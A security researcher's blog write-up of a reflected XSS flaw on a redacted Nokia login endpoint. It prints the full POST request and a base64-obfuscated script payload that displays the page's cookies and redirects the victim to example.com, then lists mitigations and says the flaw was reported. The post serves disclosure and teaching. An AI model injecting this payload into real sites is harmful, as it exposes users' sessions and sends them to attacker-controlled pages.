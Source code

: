 ```yaml
---
layout: post
title: Nokia XSS WriteUP
excerpt: The Chronicles of a Cross-Site Scripting (XSS) Vulnerability
---
```


# The Chronicles of a Cross-Site Scripting (XSS) Vulnerability: Unearthing the Payload on https://redacted.com
![](https://hithmast.github.io/images/xss.jpg)
## Prelude to Discovery

As a curious security enthusiast, I set out on a digital expedition to explore the inner workings of **https://redacted.com**. Little did I anticipate that this journey would unveil a hidden treasure trove - a vulnerability that could potentially compromise user data and tarnish the application's integrity. The vulnerability, a Cross-Site Scripting (XSS) flaw, revealed a critical oversight that begged for attention.

## Unraveling the Payload

The heart of this vulnerability lay in the artful crafting of a payload, a carefully concocted string of characters that could manipulate the very fabric of the application. The payload danced within the confines of the **TARGET** parameter in a POST request, like a silent whisper waiting to be unleashed.

```plaintext
TYPE=33554433&REALMOID=06-85c1bf1c-4c45-4e33-a396-e3c5954a2b66&GUID=&SMAUTHREASON=0&METHOD=GET&SMAGENTNAME=$SM$8Tmx7I3fjX%2fpvbLJxP1%2bYKCn%2f%2fhkBCuK%2fC3ufg4zicmwN5Am%2bfChNVQgafvDS3wf&TARGET=\"--><script>eval(atob(\'YWxlcnQoJ1hTUyBCeSBBbGkgRW1hcmEnKTthbGVydCgnRG9tYWluOiAnK2RvY3VtZW50LmRvbWFpbik7YWxlcnQoJ1lvdXIgQ29va2llczpcbicrZG9jdW1lbnQuY29va2llKTt0b3AubG9jYXRpb24uaHJlZj0naHR0cDovL2V4YW1wbGUuY29tJzs=\'))</script>'
```

## The Payload's Mischief

```
\"--><script>eval(atob(\'YWxlcnQoJ1hTUyBCeSBBbGkgRW1hcmEnKTthbGVydCgnRG9tYWluOiAnK2RvY3VtZW50LmRvbWFpbik7YWxlcnQoJ1lvdXIgQ29va2llczpcbicrZG9jdW1lbnQuY29va2llKTt0b3AubG9jYXRpb24uaHJlZj0naHR0cDovL2V4YW1wbGUuY29tJzs=\'))</script>
```

This potent payload, once injected into the **TARGET** parameter, wielded the ability to spring into action upon an unsuspecting victim's visit. It started innocently enough, alerting my name and the domain URL. Yet, this was merely the prelude to its grand finale. With an audacious flourish, the payload executed a script that decoded and executed further instructions.

The final act of this payload redirected users to an external site, **example.com**, under the attacker's control. This sequence of events demonstrated the vulnerability's potential to compromise user data, deceive users with misleading content, or launch more sinister attacks.

## The Source of Vulnerability

The root cause of this XSS vulnerability lay in the application's inadequate input validation and sanitation. The absence of stringent measures allowed this nefarious payload to infiltrate and manipulate the application's behavior, emphasizing the critical need for robust security mechanisms.

## Thwarting the Threat: Mitigation Strategies

To quell this vulnerability's menacing potential, several strategic measures are advised:

1. **Impeccable Input Sanitization**: Enhance input validation and sanitation procedures to neutralize malicious payloads before they infiltrate the application.

2. **Fortify with CSP**: Implement a comprehensive Content Security Policy (CSP) to control script execution sources and protect against unauthorized scripts.

3. **Encode for Defense**: Encode user-generated content to prevent script execution and bolster the application's defenses against similar attacks.

4. **Safeguard through Audits**: Conduct regular security audits and vulnerability assessments to ensure vigilant protection against evolving threats.

5. **Vigilance in Validation**: Maintain rigorous validation of user inputs, especially those used in dynamic content generation.

## Epilogue: A Call to Action

Armed with this newfound knowledge, I have alerted Nokia's security team to the presence of this vulnerability. My aim is to contribute to the safeguarding of user data and the fortification of the application's defenses. Through this narrative, I hope to underscore the urgency of addressing XSS vulnerabilities and fostering a safer digital landscape for all.

In the tapestry of digital security, every discovered vulnerability serves as a catalyst for growth, learning, and a resolute commitment to shield our online realms from harm.
